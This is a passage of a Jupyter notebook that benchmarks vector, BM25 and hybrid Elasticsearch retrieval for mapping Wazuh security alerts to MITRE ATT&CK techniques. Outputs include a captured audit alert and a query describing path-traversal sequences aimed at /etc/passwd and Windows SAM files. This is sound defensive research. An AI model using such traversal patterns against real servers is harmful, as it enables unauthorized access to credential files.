    return [docs[tid] for tid in sorted_ids], scores


In [159]:
import copy
# local_embedder = LocalvLLMEmbedder(model_name='bge-m3')
# emb = SentenceTransformerEmbedder()
# cve_store = ElasticSearchVectorStore(index_name='cve_index')
# mitre_store = ElasticSearchVectorStore(index_name='mitre_attack')
# mitre_store = ElasticSearchVectorStore(index_name='mitre_attack_v2')
# mitre_store_bge = ElasticSearchVectorStore(index_name='mitre_attack_bge')

emb = SentenceTransformerEmbedder('BAAI/bge-small-en-v1.5')
mitre_store = ElasticSearchVectorStore(index_name='mitre_attack_v3_bge_small')
top_k = 10

methods = ['vector', 'BM25_full_text', 
           'BM25_multi',
           'hybrid',
           'all'
           ]

m_metrics = {
    'alert': {'exact': 0, 'parent': 0, 'sub': 0, 'total_t': 0, 'total_a': 0},
    'desc': {'exact': 0, 'parent': 0, 'sub': 0, 'total_t': 0, 'total_a': 0},
    'keywords': {'exact': 0, 'parent': 0, 'sub': 0, 'total_t': 0, 'total_a': 0},
    'combo': {'exact': 0, 'parent': 0, 'sub': 0, 'total_t': 0, 'total_a': 0}
}
total_t = 0
total_a = len(data)

global_m = {m: copy.deepcopy(m_metrics) for m in methods}
debug = []
for e in data:
    original_alert, description, keywords, alert_desc, labels = e.values()

    prefix = "Represent this sentence for searching relevant passages: " # Para bge (asimétrico)

    emb_desc = emb.embed_query(prefix + description)
    emb_keywords = emb.embed_query(prefix + keywords)
    emb_alert = emb.embed_query(prefix + alert_desc)

    # Método 1: Semántica pura (con cada texto)
    
    m1_desc = mitre_store.search(emb_desc, top_k=top_k)
    m1_keywords = mitre_store.search(emb_keywords, top_k=top_k)
    m1_alert = mitre_store.search(emb_alert, top_k=top_k)

    results_m1_desc = [r['technique_id'] for r in m1_desc]
    results_m1_keywords = [r['technique_id'] for r in m1_keywords]
    results_m1_alert = [r['technique_id'] for r in m1_alert]

    hits_m1_desc = predictions_check(global_m['vector']['desc'], results_m1_desc, labels)
    hits_m1_keywords = predictions_check(global_m['vector']['keywords'], results_m1_keywords, labels)
    hits_m1_alert = predictions_check(global_m['vector']['alert'], results_m1_alert, labels)
    hits_m1_combo = predictions_check(global_m['vector']['combo'], list(set(results_m1_desc+results_m1_keywords+results_m1_alert)), labels)

    # Método 2 (BM25 sobre full_text)

    m2_desc = query_full_text(mitre_store, description, top_k)
    m2_keywords = query_full_text(mitre_store, keywords, top_k)
    m2_alert = query_full_text(mitre_store, alert_desc, top_k)

    results_m2_desc = [r['technique_id'] for r in m2_desc]
    results_m2_keywords = [r['technique_id'] for r in m2_keywords]
    results_m2_alert = [r['technique_id'] for r in m2_alert]

    hits_m2_desc = predictions_check(global_m['BM25_full_text']['desc'], results_m2_desc, labels)
    hits_m2_keywords = predictions_check(global_m['BM25_full_text']['keywords'], results_m2_keywords, labels)
    hits_m2_alert = predictions_check(global_m['BM25_full_text']['alert'], results_m2_alert, labels)
    hits_m2_combo = predictions_check(global_m['BM25_full_text']['combo'], list(set(results_m2_desc+results_m2_keywords+results_m2_alert)), labels)  

    # Método 3 (BM25 con multi-query)

    m3_desc = query_multi_match(mitre_store, description, top_k)
    m3_keywords = query_multi_match(mitre_store, keywords, top_k)
    m3_alert = query_multi_match(mitre_store, alert_desc, top_k)

    results_m3_desc = [r['technique_id'] for r in m3_desc]
    results_m3_keywords = [r['technique_id'] for r in m3_keywords]
    results_m3_alert = [r['technique_id'] for r in m3_alert]

    hits_m3_desc = predictions_check(global_m['BM25_multi']['desc'], results_m3_desc, labels)
    hits_m3_keywords = predictions_check(global_m['BM25_multi']['keywords'], results_m3_keywords, labels)
    hits_m3_alert = predictions_check(global_m['BM25_multi']['alert'], results_m3_alert, labels)
    hits_m3_combo = predictions_check(global_m['BM25_multi']['combo'], list(set(results_m3_desc+results_m3_keywords+results_m3_alert)), labels)  

    # Método 4 (Híbrida)

    m4_desc = query_hybrid_simple(mitre_store, emb_desc, description, top_k)
    m4_keywords = query_hybrid_simple(mitre_store, emb_keywords, description, top_k)
    m4_alert = query_hybrid_simple(mitre_store, emb_alert, description, top_k)

    # m4_desc = hybrid_query_rrf_simple(mitre_store, emb_desc, keywords, top_k)
    # m4_keywords = hybrid_query_rrf_simple(mitre_store, emb_keywords, keywords, top_k)
    # m4_alert = hybrid_query_rrf_simple(mitre_store, emb_alert, keywords, top_k)

    results_m4_desc = [r['technique_id'] for r in m4_desc]
    results_m4_keywords = [r['technique_id'] for r in m4_keywords]
    results_m4_alert = [r['technique_id'] for r in m4_alert]

    hits_m4_desc = predictions_check(global_m['hybrid']['desc'], results_m4_desc, labels)
    hits_m4_keywords = predictions_check(global_m['hybrid']['keywords'], results_m4_keywords, labels)
    hits_m4_alert = predictions_check(global_m['hybrid']['alert'], results_m4_alert, labels)
    hits_m4_combo = predictions_check(global_m['hybrid']['combo'], list(set(results_m4_desc+results_m4_keywords+results_m4_alert)), labels)  

    sel = list(set(results_m1_keywords+results_m2_alert+results_m2_desc))
    all_results = list(set(results_m1_desc+results_m1_keywords+results_m2_desc+results_m2_keywords+results_m2_alert+results_m3_desc+results_m3_keywords+results_m3_alert))
    
    all_hits = predictions_check(global_m['all']['combo'], sel, labels)
    total_t += len(labels)


    debug.append({
            'original_alert': original_alert,
            'labels': labels,
            'alert_desc': alert_desc,
            'description': description,
            'keywords': keywords,
            'predictions': {
                'vector': {
                    'alert_results': results_m1_alert,
                    'alert_hits': hits_m1_alert,
                    'desc_results': results_m1_desc,
                    'desc_hits': hits_m1_desc,
                    'keywords_results': results_m1_keywords,
                    'keywords_hits': hits_m1_keywords
                },
                'BM25_full_text': {
                    'alert_results': results_m2_alert,
                    'alert_hits': hits_m2_alert,
                    'desc_results': results_m2_desc,
                    'desc_hits': hits_m2_desc,
                    'keywords_results': results_m2_keywords,
                    'keywords_hits': hits_m2_keywords
                },
                'BM25_multi': {
                    'alert_results': results_m3_alert,
                    'alert_hits': hits_m3_alert,
                    'desc_results': results_m3_desc,
                    'desc_hits': hits_m3_desc,
                    'keywords_results': results_m3_keywords,
                    'keywords_hits': hits_m3_keywords
                },
                'hybrid': {
                    'alert_results': results_m4_alert,
                    'alert_hits': hits_m4_alert,
                    'desc_results': results_m4_desc,
                    'desc_hits': hits_m4_desc,
                    'keywords_results': results_m4_keywords,
                    'keywords_hits': hits_m4_keywords
                }
            }
        })

with open('notes/query_debug_v2.json', 'w', encoding='utf-8') as file:
    json.dump(debug, file, indent=4, ensure_ascii=False)

print(global_m)
# accuracy = {}

# for key, sub_dict in metrics.items():
#     accuracy[key] = {
#         'exact': sub_dict['exact'] / total_t if total_t > 0 else 0,
#         'parent': sub_dict['parent'] / total_t if total_t > 0 else 0,
#         'sub': sub_dict['sub'] / total_t if total_t > 0 else 0,
#         'total_t': sub_dict['total_t'] / total_t if total_t > 0 else 0,
#         'total_a': sub_dict['total_a'] / total_a if total_a > 0 else 0
#     }

# import json
# print(json.dumps(accuracy, indent=4))

Loading weights: 100%|██████████| 199/199 [00:00<00:00, 4249.50it/s]
BertModel LOAD REPORT from: BAAI/bge-small-en-v1.5
Key                     | Status     |  | 
------------------------+------------+--+-
embeddings.position_ids | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
C:\Users\omarinf\AppData\Local\Temp\ipykernel_2640\52421093.py:51: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  response = vector_store.client.search(index=mitre_store.index_name, body=q_full_text)
C:\Users\omarinf\AppData\Local\Temp\ipykernel_2640\52421093.py:67: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.

{'vector': {'alert': {'exact': 9, 'parent': 0, 'sub': 0, 'total_t': 9, 'total_a': 9}, 'desc': {'exact': 9, 'parent': 0, 'sub': 1, 'total_t': 10, 'total_a': 10}, 'keywords': {'exact': 17, 'parent': 0, 'sub': 0, 'total_t': 17, 'total_a': 16}, 'combo': {'exact': 17, 'parent': 0, 'sub': 0, 'total_t': 17, 'total_a': 16}}, 'BM25_full_text': {'alert': {'exact': 11, 'parent': 0, 'sub': 2, 'total_t': 13, 'total_a': 13}, 'desc': {'exact': 15, 'parent': 0, 'sub': 3, 'total_t': 18, 'total_a': 17}, 'keywords': {'exact': 14, 'parent': 0, 'sub': 1, 'total_t': 15, 'total_a': 14}, 'combo': {'exact': 19, 'parent': 0, 'sub': 1, 'total_t': 20, 'total_a': 19}}, 'BM25_multi': {'alert': {'exact': 11, 'parent': 0, 'sub': 2, 'total_t': 13, 'total_a': 13}, 'desc': {'exact': 11, 'parent': 0, 'sub': 1, 'total_t': 12, 'total_a': 12}, 'keywords': {'exact': 13, 'parent': 1, 'sub': 0, 'total_t': 14, 'total_a': 13}, 'combo': {'exact': 17, 'parent': 0, 'sub': 1, 'total_t': 18, 'total_a': 17}}, 'hybrid': {'alert': {'exa

In [156]:
global_m

{'vector': {'alert': {'exact': 9,
   'parent': 0,
   'sub': 0,
   'total_t': 9,
   'total_a': 9},
  'desc': {'exact': 10, 'parent': 0, 'sub': 2, 'total_t': 12, 'total_a': 12},
  'keywords': {'exact': 16,
   'parent': 0,
   'sub': 0,
   'total_t': 16,
   'total_a': 15},
  'combo': {'exact': 16, 'parent': 0, 'sub': 0, 'total_t': 16, 'total_a': 15}},
 'BM25_full_text': {'alert': {'exact': 11,
   'parent': 0,
   'sub': 2,
   'total_t': 13,
   'total_a': 13},
  'desc': {'exact': 12, 'parent': 0, 'sub': 2, 'total_t': 14, 'total_a': 12},
  'keywords': {'exact': 14,
   'parent': 0,
   'sub': 1,
   'total_t': 15,
   'total_a': 14},
  'combo': {'exact': 18, 'parent': 0, 'sub': 2, 'total_t': 20, 'total_a': 18}},
 'BM25_multi': {'alert': {'exact': 11,
   'parent': 0,
   'sub': 2,
   'total_t': 13,
   'total_a': 13},
  'desc': {'exact': 11, 'parent': 0, 'sub': 0, 'total_t': 11, 'total_a': 11},
  'keywords': {'exact': 13,
   'parent': 1,
   'sub': 0,
   'total_t': 14,
   'total_a': 13},
  'combo': {

In [2]:
emb = SentenceTransformerEmbedder('BAAI/bge-small-en-v1.5')
mitre_store = ElasticSearchVectorStore(index_name='mitre_attack_v3_bge_small')
top_k = 10

Loading weights: 100%|██████████| 199/199 [00:00<00:00, 7790.06it/s]
BertModel LOAD REPORT from: BAAI/bge-small-en-v1.5
Key                     | Status     |  | 
------------------------+------------+--+-
embeddings.position_ids | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.


In [8]:
m_metrics = {'exact': 0, 'parent': 0, 'sub': 0, 'total_t': 0, 'total_a': 0}
total_t = 0
total_a = len(data)

for e in data:
    original_alert, description, keywords, alert_desc, labels = e.values()

    prefix = "Represent this sentence for searching relevant passages: " # Para bge (asimétrico)

    emb_desc = emb.embed_query(prefix + description)
    emb_keywords = emb.embed_query(prefix + keywords)
    emb_alert = emb.embed_query(prefix + alert_desc)

    emb_key_desc = emb.embed_query(prefix + keywords + f'. {description}')
    emb_desc_key = emb.embed_query(prefix + description + f'. Keywords: {keywords}')
    
    
    # search = query_hybrid_simple(mitre_store, emb_alert, alert_desc, top_k=top_k)
    # search2 = query_hybrid_simple(mitre_store, emb_keywords, description, top_k=top_k)
    search = mitre_store.search(emb_keywords, top_k=top_k)
    # search = search_mitre_ultimate(mitre_store,emb_keywords,emb_desc, alert_desc, keywords, top_k=top_k)
    # search2 = mitre_store.search(emb_keywords, top_k=top_k)
    search2 = query_full_text(mitre_store, description, top_k=top_k)
    # search4 = query_hybrid_simple(mitre_store, emb_desc, description, top_k=top_k)
    
    # combo_ponderado = interleave_results(search2,search,search3)
    # combo_results = [r['technique_id'] for r in combo_ponderado]

    results = [r['technique_id'] for r in search]
    results2 = [r['technique_id'] for r in search2]
    # results3 = [r['technique_id'] for r in search3]

    combo = list(set(results+results2))
    # fused = [search,search2,search3,search4]
    # fused_results, _ = rrf_fuse(fused, top_k=10)
    # fused_results = [r['technique_id'] for r in fused_results]
    hits = predictions_check(m_metrics, results, labels)


print(m_metrics)

C:\Users\omarinf\AppData\Local\Temp\ipykernel_17740\3799908321.py:51: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  response = vector_store.client.search(index=mitre_store.index_name, body=q_full_text)


{'exact': 17, 'parent': 0, 'sub': 0, 'total_t': 17, 'total_a': 16}


In [110]:
def interleave_results(lista_vector, lista_bm25_alert, lista_bm25_keywords, top_k=5):
    """
    Fusión por Asignación de Cupos (Interleaving).
    Garantiza que los Top-1 y Top-2 de cada método individual sobrevivan en la lista final.
    """
    lista_final = []
    ids_vistos = set()

    # Función auxiliar para añadir sin duplicar
    def add_if_new(doc):
        t_id = doc['technique_id']
        if t_id not in ids_vistos and len(lista_final) < top_k:
            lista_final.append(doc)
            ids_vistos.add(t_id)
            return True
        return False

    # RONDA 1: Garantizamos que el Top-1 absoluto de cada método entre.
    # (El orden de quién entra primero importa si quieres priorizar un método)
    if lista_vector: add_if_new(lista_vector[0])
    if lista_bm25_alert: add_if_new(lista_bm25_alert[0])
    if lista_bm25_keywords: add_if_new(lista_bm25_keywords[0])

    # RONDA 2: Metemos los Top-2
    if len(lista_vector) > 1: add_if_new(lista_vector[1])
    if len(lista_bm25_alert) > 1: add_if_new(lista_bm25_alert[1])
    if len(lista_bm25_keywords) > 1: add_if_new(lista_bm25_keywords[1])

    # RONDA 3: Si aún faltan huecos (porque hubo muchos duplicados), 
    # rellenamos alternando hasta llegar a top_k (5).
    idx = 2
    while len(lista_final) < top_k:
        added = False
        if idx < len(lista_vector): 
            added |= add_if_new(lista_vector[idx])
        if idx < len(lista_bm25_alert): 
            added |= add_if_new(lista_bm25_alert[idx])
        if idx < len(lista_bm25_keywords): 
            added |= add_if_new(lista_bm25_keywords[idx])
        
        # Si ya no quedan más documentos en ninguna lista, salimos
        if not added:
            break
        idx += 1

    return lista_final

interleave_results(search, search2, search3)

[{'id': 'attack-pattern--3257eb21-f9a7-4430-8de1-d8b6e288f529',
  'technique_id': 'T1040',
  'name': 'Network Sniffing',
  'description': 'Adversaries may passively sniff network traffic to capture information about an environment, including authentication material passed over the network. Network sniffing refers to using the network interface on a system to monitor or capture information sent over a wired or wireless connection. An adversary may place a network interface into promiscuous mode to passively access data in transit over the network, or use span ports to capture a larger amount of data.\n\nData captured via this technique may include user credentials, especially those sent over an insecure, unencrypted protocol. Techniques for name service resolution poisoning, such as [Name Resolution Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001), can also be used to capture credentials to websites, proxies, and internal systems by redirecting traffic to an adver

In [ ]:
# ==============================================================================
# CELDA DE PRUEBA Y COMPARATIVA: VECTOR vs BM25 vs HÍBRIDA
# ==============================================================================
def hybrid_query_linear_simple(vector_store, query_vector, query_text, top_k=5):
    query = {
        "size": top_k,
        "explain": True,
        # 1. Componente Semántico (Vectorial)
        "knn": {
            "field": "vector",
            "query_vector": query_vector,
            "k": top_k,
            "num_candidates": 100,
            # Le damos un boost muy alto porque los scores de KNN 
            # suelen ir de 0 a 1, y queremos que compita con BM25
            # "boost": 10.0 
        },
        # 2. Componente Léxico (BM25)
        "query": {
            "match": {
                # Asegúrate de usar el nombre de tu campo
                "text_to_search": {
                    "query": query_text,
                    # Le bajamos el peso a BM25 para evitar que sus 
                    # puntuaciones brutas (que pueden ser 20, 30 o 50) 
                    # aplasten al vector.
                    # "boost": 0.5 
                }
            }
        }
    }
    
    response = vector_store.client.search(index=vector_store.index_name, body=query)
    resultados = []
    for hit in response['hits']['hits']:
        doc = hit['_source']
        doc['_score_total'] = hit['_score']
        doc['_explicacion'] = hit['_explanation']
        doc['_id_es'] = hit['_id'] # Por si acaso 'id' no está en el source
        resultados.append(doc)
        
    return resultados    


def test_solo_vector(vector_store, query_vector, top_k=5):
    q = {
        "size": top_k,
        "knn": {
            "field": "vector",
            "query_vector": query_vector,
            "k": top_k,
            "num_candidates": 100
        }
    }
    res = vector_store.client.search(index=vector_store.index_name, body=q)
    return res['hits']['hits']

def test_solo_bm25(vector_store, query_text, top_k=5):
    q = {
        "size": top_k,
        "query": {
            "match": {
                "text_to_search": query_text # Asegúrate de que este es tu campo de texto consolidado
            }
        }
    }
    res = vector_store.client.search(index=vector_store.index_name, body=q)
    return res['hits']['hits']

# --- EJECUCIÓN DE LA PRUEBA ---

print("Buscando TTPs para la alerta/keywords proporcionadas...\n")
print("="*80)

# 1. Resultados SOLO VECTOR
print("🔍 1. TOP RESULTADOS: SOLO VECTOR (Semántica y Contexto)")
print("-" * 80)
res_vector = test_solo_vector(mitre_store, emb_desc, top_k=5)
for i, hit in enumerate(res_vector, 1):
    doc = hit['_source']
    # Cambia 'id' o 'name' si tus campos en ES se llaman distinto (ej. 'technique_id')
    print(f"{i}. [{doc.get('id', 'ID')}] {doc.get('name', 'Nombre TTP')} | Score: {hit['_score']:.4f}")

print("\n" + "="*80)

# 2. Resultados SOLO BM25
print("🔍 2. TOP RESULTADOS: SOLO BM25 (Coincidencia exacta de palabras)")
print("-" * 80)
res_bm25 = test_solo_bm25(mitre_store, keywords, top_k=5)
for i, hit in enumerate(res_bm25, 1):
    doc = hit['_source']
    print(f"{i}. [{doc.get('id', 'ID')}] {doc.get('name', 'Nombre TTP')} | Score: {hit['_score']:.4f}")

print("\n" + "="*80)

# 3. Resultados HÍBRIDOS (Usando la función que definimos antes)
print("🤝 3. TOP RESULTADOS: BÚSQUEDA HÍBRIDA (Combinación Lineal con Explicación)")
print("-" * 80)
# Asumo que la función hybrid_query_linear_explicada ya está cargada en memoria
res_hibrida = hybrid_query_linear_simple(mitre_store, emb_desc, keywords, top_k=5)

for i, doc in enumerate(res_hibrida, 1):
    score_total = doc['_score_total']
    
    # Variables para guardar el desglose
    score_vec = 0.0
    score_txt = 0.0
    
    # Parseo básico de la explicación de ES para separar peras de manzanas
    explicacion = doc.get('_explicacion', {}).get('details', [])
    for detalle in explicacion:
        desc = detalle.get('description', '').lower()
        if 'vector' in desc:
            score_vec = detalle.get('value', 0.0)
        elif 'match' in desc or 'text' in desc or 'full_text' in desc:
            score_txt = detalle.get('value', 0.0)
            
    print(f"{i}. [{doc.get('id', 'ID')}] {doc.get('name', 'Nombre TTP')}")
    print(f"   🎯 Score Total: {score_total:.4f}  (Aporte Vector: {score_vec:.4f} | Aporte Texto: {score_txt:.4f})")
    print()

print("="*80)

Buscando TTPs para la alerta/keywords proporcionadas...

🔍 1. TOP RESULTADOS: SOLO VECTOR (Semántica y Contexto)
--------------------------------------------------------------------------------
1. [attack-pattern--8f4a33ec-8b1f-4b80-a2f6-642b2e479580] Process Discovery | Score: 0.8686
2. [attack-pattern--f1951e8a-500e-4a26-8803-76d95c4554b4] Service Execution | Score: 0.8539
3. [attack-pattern--3b0e52ce-517a-4614-a523-1bd5deef6c5e] Indirect Command Execution | Score: 0.8523
4. [attack-pattern--322bad5a-1c49-4d23-ab79-76d641794afa] System Service Discovery | Score: 0.8423
5. [attack-pattern--4a2975db-414e-4c0c-bd92-775987514b4b] Ignore Process Interrupts | Score: 0.8416

🔍 2. TOP RESULTADOS: SOLO BM25 (Coincidencia exacta de palabras)
--------------------------------------------------------------------------------
1. [attack-pattern--4a6cfdae-1417-40c7-a84e-f59d21c58266] Backup Software Discovery | Score: 16.9027
2. [attack-pattern--0470e792-32f8-46b0-a351-652bc35e9336] Container and Re

C:\Users\omarinf\AppData\Local\Temp\ipykernel_6228\2562085218.py:15: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  res = vector_store.client.search(index=vector_store.index_name, body=q)
C:\Users\omarinf\AppData\Local\Temp\ipykernel_6228\2562085218.py:27: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  res = vector_store.client.search(index=vector_store.index_name, body=q)
C:\Users\omarinf\AppData\Local\Temp\ipykernel_6228\2539797015.py:30: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.co

In [47]:
def hybrid_query_rrf_python(vector_store, query_vector, query_text, top_k=5, k_constant=60):
    # 1. Obtenemos listas separadas (pedimos 20 para tener buen margen de cruce)
    res_vector = test_solo_vector(vector_store, query_vector, top_k=20)
    res_bm25 = test_solo_bm25(vector_store, query_text, top_k=20)
    
    rrf_scores = {}
    documentos = {}
    
    # 2. Procesamos el ranking de VECTORES
    for rank, hit in enumerate(res_vector, start=1):
        doc_id = hit['_id']
        documentos[doc_id] = hit['_source'] # Guardamos el contenido del doc
        # Sumamos la puntuación RRF por su posición
        rrf_scores[doc_id] = rrf_scores.get(doc_id, 0.0) + (1.0 / (k_constant + rank))
        # Guardamos la posición para el log visual
        documentos[doc_id]['_pos_vector'] = rank
        
    # 3. Procesamos el ranking de BM25 (Texto)
    for rank, hit in enumerate(res_bm25, start=1):
        doc_id = hit['_id']
        if doc_id not in documentos:
            documentos[doc_id] = hit['_source']
            
        # Sumamos la puntuación RRF por su posición en texto
        rrf_scores[doc_id] = rrf_scores.get(doc_id, 0.0) + (1.0 / (k_constant + rank))
        # Guardamos la posición para el log visual
        documentos[doc_id]['_pos_texto'] = rank

    # 4. Ordenamos los documentos por su puntuación RRF total de mayor a menor
    resultados_ordenados = sorted(rrf_scores.items(), key=lambda item: item[1], reverse=True)
    
    # 5. Extraemos el Top K final
    resultados_finales = []
    for doc_id, rrf_score in resultados_ordenados[:top_k]:
        doc = documentos[doc_id]
        doc['_score_rrf_total'] = rrf_score
        resultados_finales.append(doc)
        
    return resultados_finales

# ==============================================================================
# EJECUCIÓN DE LA PRUEBA RRF CLIENT-SIDE
# ==============================================================================

print("🤝 TOP RESULTADOS: BÚSQUEDA HÍBRIDA (RRF en Python)")
print("-" * 80)

resultados_rrf = hybrid_query_rrf_python(mitre_store, emb_desc, keywords, top_k=10)

for i, doc in enumerate(resultados_rrf, 1):
    ttp_id = doc.get('technique_id', doc.get('id', 'Sin ID'))
    
    # Obtenemos las posiciones (si no está en una de las listas, ponemos >20)
    pos_vec = doc.get('_pos_vector', '>20')
    pos_txt = doc.get('_pos_texto', '>20')
    
    print(f"{i}. [{ttp_id}] {doc.get('name', 'Sin Nombre')}")
    print(f"   🎯 Score RRF: {doc['_score_rrf_total']:.5f}")
    print(f"   📊 Posición en Vector: {pos_vec} | Posición en Texto (BM25): {pos_txt}")
    print()

🤝 TOP RESULTADOS: BÚSQUEDA HÍBRIDA (RRF en Python)
--------------------------------------------------------------------------------
1. [T1057] Process Discovery
   🎯 Score RRF: 0.03227
   📊 Posición en Vector: 1 | Posición en Texto (BM25): 3

2. [T1007] System Service Discovery
   🎯 Score RRF: 0.03125
   📊 Posición en Vector: 4 | Posición en Texto (BM25): 4

3. [T1010] Application Window Discovery
   🎯 Score RRF: 0.02786
   📊 Posición en Vector: 8 | Posición en Texto (BM25): 16

4. [T1018] Remote System Discovery
   🎯 Score RRF: 0.02691
   📊 Posición en Vector: 11 | Posición en Texto (BM25): 18

5. [T1614] System Location Discovery
   🎯 Score RRF: 0.02620
   📊 Posición en Vector: 20 | Posición en Texto (BM25): 13

6. [T1518.002] Backup Software Discovery
   🎯 Score RRF: 0.01639
   📊 Posición en Vector: >20 | Posición en Texto (BM25): 1

7. [T1569.002] Service Execution
   🎯 Score RRF: 0.01613
   📊 Posición en Vector: 2 | Posición en Texto (BM25): >20

8. [T1613] Container and Resource 

C:\Users\omarinf\AppData\Local\Temp\ipykernel_6228\2562085218.py:15: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  res = vector_store.client.search(index=vector_store.index_name, body=q)
C:\Users\omarinf\AppData\Local\Temp\ipykernel_6228\2562085218.py:27: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  res = vector_store.client.search(index=vector_store.index_name, body=q)


In [ ]:


q_multi = {
            "size": top_k,
            "query": {
                    "multi_match": {
                        "query": alert_desc,
                        # Buscamos en el nombre (con peso x3), en el ID y en la descripción
                        "fields": ["name^3", "technique_id^2", "tactics", "description", "procedures", "detections"],
                        # "boost": 0.05 # Un peso muy bajito para que no rompa la escala del 0 al 1
                    }
                },
        }

response = mitre_store.client.search(index=mitre_store.index_name, body=q_full_text)
results = [hit['_source'] for hit in response['hits']['hits']]
print(labels)
[r['technique_id'] for r in results]

['T1040']


C:\Users\omarinf\AppData\Local\Temp\ipykernel_27688\1854329442.py:26: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  response = mitre_store.client.search(index=mitre_store.index_name, body=q_full_text)


['T1040',
 'T1557.002',
 'T1020.001',
 'T1557.003',
 'T1205.002',
 'T1557.004',
 'T1205',
 'T1689',
 'T1557',
 'T1056.001']

In [ ]:
import json
import time



for i, row in df.iterrows():
    alert_data = json.loads(row['alert'])
    key_path = ['rule', 'mitre']  
    parent = alert_data
    for key in key_path[:-1]:
        parent = parent.get(key, {})
        if not isinstance(parent, dict):
            parent = {}
            break
    parent.pop(key_path[-1], None)
    labels = eval(row['real_ttps'])
    print(alert_data)
    print(labels)

    try:
        final_state = app.invoke({'original_alert': alert_data})
    except: 
        time.sleep(60)
        final_state = app.invoke({'original_alert': alert_data})

    results1 = [final_state['mitre_data1'][i]['technique_id'] for i in range(config.mitre_top_k)]
    results2 = [final_state['mitre_data2'][i]['technique_id'] for i in range(config.mitre_top_k)]
    results3 = [final_state['mitre_data3'][i]['technique_id'] for i in range(config.mitre_top_k)]

    print(final_state['classification'].mitre_description)
    print(results1)

    print(final_state['classification'].mitre_keywords)
    print(results2)

    print(final_state['original_alert']['rule']['description'])
    print(results3)

    for t in labels:
        total_t += 1
        if t in results1:
            metrics['desc'] += 1
        if t in results2:
            metrics['keywords'] += 1
        if t in results3:
            metrics['alert'] += 1
    
    print(total_t)
    print(metrics)
    

In [ ]:
import pandas as pd
import json
import time

df = pd.read_csv('data/unique_alerts.csv')

metrics = {
    'alert': 0,
    'desc': 0,
    'keywords': 0
}
total_t = 0

for i, row in df.iterrows():
    alert_data = json.loads(row['alert'])
    key_path = ['rule', 'mitre']  
    parent = alert_data
    for key in key_path[:-1]:
        parent = parent.get(key, {})
        if not isinstance(parent, dict):
            parent = {}
            break
    parent.pop(key_path[-1], None)
    labels = eval(row['real_ttps'])
    print(alert_data)
    print(labels)

    try:
        final_state = app.invoke({'original_alert': alert_data})
    except: 
        time.sleep(60)
        final_state = app.invoke({'original_alert': alert_data})

    results1 = [final_state['mitre_data1'][i]['technique_id'] for i in range(config.mitre_top_k)]
    results2 = [final_state['mitre_data2'][i]['technique_id'] for i in range(config.mitre_top_k)]
    results3 = [final_state['mitre_data3'][i]['technique_id'] for i in range(config.mitre_top_k)]

    print(final_state['classification'].mitre_description)
    print(results1)

    print(final_state['classification'].mitre_keywords)
    print(results2)

    print(final_state['original_alert']['rule']['description'])
    print(results3)

    for t in labels:
        total_t += 1
        if t in results1:
            metrics['desc'] += 1
        if t in results2:
            metrics['keywords'] += 1
        if t in results3:
            metrics['alert'] += 1
    
    print(total_t)
    print(metrics)
    

{'timestamp': '2025-09-22T18:37:00.601+0000', 'rule': {'level': 6, 'description': 'Processes running for all users were queried with ps command.', 'id': '92604', 'firedtimes': 1, 'mail': False, 'groups': ['audit_detections']}, 'agent': {'id': '002', 'name': 'videoserver', 'ip': '172.17.100.121'}, 'manager': {'name': 'wazuh'}, 'id': '1758566220.11498102', 'full_log': 'type=SYSCALL msg=audit(1758566218.934:4968): arch=c000003e syscall=59 success=yes exit=0 a0=55de6e506188 a1=55de6e4f6c90 a2=55de6e5060f8 a3=1b6 items=3 ppid=3135 pid=3136 auid=4294967295 uid=33 gid=33 euid=33 suid=33 fsuid=33 egid=33 sgid=33 fsgid=33 tty=pts0 ses=4294967295 comm="ps" exe="/usr/bin/ps" subj==unconfined key="T1166_Seuid_and_Setgid"\x1dARCH=x86_64 SYSCALL=execve AUID="unset" UID="www-data" GID="www-data" EUID="www-data" SUID="www-data" FSUID="www-data" EGID="www-data" SGID="www-data" FSGID="www-data" type=EXECVE msg=audit(1758566218.934:4968): argc=2 a0="ps" a1="auxwww" type=PATH msg=audit(1758566218.934:4968

In [ ]:
query_vector = embedder.embed_query("The alert shows multiple HTTP GET requests containing directory traversal sequences (e.g., ../, %2e%2e/) targeting sensitive system files such as /etc/passwd, boot.ini, and winnt/repair/sam._, indicating an attempt to access unauthorized files on the web server.")
query_text = 'Path Traversal, Directory Traversal, Web Application Attack'

[r['technique_id'] for r in mitre_store_v2.search_mitre_hybrid(query_vector=query_vector, query_text=query_text)]

['T1599.001', 'T1056.003', 'T1689', 'T1204', 'T1189']

In [11]:
[r['technique_id'] for r in mitre_store_v2.search(query_vector)]

['T1204', 'T1204.001', 'T1189', 'T1552', 'T1056.003']

In [31]:
results1 = [final_state['mitre_data1'][i]['technique_id'] for i in range(config.mitre_top_k)]
results2 = [final_state['mitre_data2'][i]['technique_id'] for i in range(config.mitre_top_k)]
results3 = [final_state['mitre_data3'][i]['technique_id'] for i in range(config.mitre_top_k)]

print(final_state['classification'].mitre_description)
print(results1)

print(final_state['classification'].mitre_keywords)
print(results2)

print(final_state['original_alert']['rule']['description'])
print(results3)

